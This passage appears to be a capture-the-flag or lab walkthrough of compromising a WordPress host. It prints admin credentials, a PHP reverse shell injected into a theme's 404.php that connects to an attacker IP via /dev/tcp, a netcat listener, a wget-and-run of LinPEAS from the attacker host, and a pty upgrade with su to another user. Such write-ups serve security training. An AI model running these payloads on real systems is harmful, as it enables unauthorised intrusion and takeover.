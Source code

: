 - Username: Admin
- Password: TogieMYSQL12345^^






I used the WordPress theme editor to inject a PHP reverse shell into the 404.php file:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.6/4444 0>&1'"); ?>
```

### Reverse Shell

I set up a netcat listener and triggered the reverse shell:

```shellscript
nc -lnvp 4444
```

Accessed the 404 page to trigger the shell:

```plaintext
http://192.168.1.16/wordpress/wp-content/themes/twentyfifteen/404.php
```

Successfully obtained a reverse shell as `www-data`.

## Privilege Escalation

### System Enumeration

I ran LinPEAS to identify privilege escalation vectors:

```shellscript
wget http://192.168.1.6/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**Key findings:**

- Ubuntu 14.04.5 LTS
- Kernel: 4.4.0-31-generic
- Multiple kernel exploits available (CVE-2016-5195 DirtyCow, CVE-2017-16995, etc.)
- User `togie` found in `/home/`


### Password Discovery and User Switching

From the `deets.txt` file found earlier, I discovered the password `12345`. I attempted to switch to user `togie`:

```shellscript
python -c "import pty;pty.spawn('/bin/bash')"
su togie
# Password: 12345
```
